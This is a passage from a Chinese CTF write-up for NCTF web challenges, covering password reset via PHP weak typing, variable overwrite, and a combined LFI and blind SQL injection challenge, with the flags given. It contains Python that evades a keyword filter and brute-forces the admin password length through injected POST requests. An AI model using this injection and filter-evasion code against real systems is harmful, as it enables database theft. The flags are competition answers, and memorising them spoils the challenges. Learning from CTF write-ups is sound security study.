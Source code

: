 ### 0x08 密码重置2

自带 3 个提示, 访问 `http://nctf.nuptzj.cn/web14/.submit.php.swp` 就可以得到源码, 观察源码, 同样弱类型 0000000000 == 0, 所以 `http://nctf.nuptzj.cn/web14/submit.php?emailAddress=admin@nuptzj.cn&token=0000000000` 就可拿到 `nctf{thanks_to_cumt_bxs}`

### 0x09 变量覆盖

`http://chinalover.sinaapp.com/web24/?name=meizijiu233` 即可, 得到`nctf{AD3FBD8D5928693CA499347C91570AE6}`

### 0x0A 综合题2

相当不错的题, 百度了半天才完成这道题 ORZ. 之前一直只听说过盲注, 这也是第一次真正尝试盲注, 还是蛮有意思的. about.php 存在 LFI, 把 sm.txt 里面说的文件瞎看了半天, 全都是有 mysql\_real\_escape\_string() 过滤, 与注入无缘. 最后找了半天, 发现在 index.php 里面还用到了 so.php 和 preview.php. 在 so.php 上存在注入点, 虽然它也使用了 mysql\_real\_escape\_string(), 但不同的是注意它的语句 ``SELECT * FROM `message` WHERE display=1 AND id=$id`` 它的 id 字段是没有引号的, 也就是说我们是不用逃逸单引号的, 这也是所有涉及到数据库的文件中唯一没有使用引号的, 成为了唯一的注入点. 再观察 antiinject.php, 通过替换过滤了很多语句, 不过我们可以通过简单的堆叠来逃逸, 比如 `seleselectct` 替换后成为 `selcet`, 就避免了被替换. 我们就可以通过盲注来脱裤了, 可以写个简单的函数来便于我们注入, 就叫 antiAntiInject 吧 233

```python
def antiAntiInject(payload):
    payload = payload.replace(" ", "/**/")
    payload = payload.replace("or", "oorr")
    payload = payload.replace("=", "like")
    payload = payload.replace("and", "anandd")
    payload = payload.replace("from", "ffromrom")
    payload = payload.replace("char", "chcharar")
    payload = payload.replace("count", "cocountunt")
    payload = payload.replace("name", "nanameme")
    payload = payload.replace("pass", "papassss")
    payload = payload.replace("admin", "admadminin")
    payload = payload.replace("order", "ororderder")
    payload = payload.replace("union", "uniunionon")
    payload = payload.replace("select", "selselectect")
    return payload
```

本来还得更麻烦去爆破表名、字段名, 但是好心的出题人直接给我们结构, 所以我们直接爆破用户名和密码. 直接猜用户名 admin 竟然对了233, 接下来就可以通过 LENGTH 函数来爆破长度. 注意因为过滤了单引号且不能反反过滤, 所以不能直接输入用户名, 在这里我们用十六进制来表示我们的用户名 admin

```python
def bpForLength(val): #34
    payload = "1 and if(((select LENGTH(userpass) from admin where username = 0x61646d696e) = {len}) , 1, 0) = 1".format(len=str(val))
    print(payload)
    postData = {
        "soid": antiAntiInject(payload)
    }
    res = sess.post("http://cms.nuptzj.cn/so.php", postData)
    res.encoding = "utf-8"

    if res.text.find("xlcteam")!=-1:
        print(True, val)
```
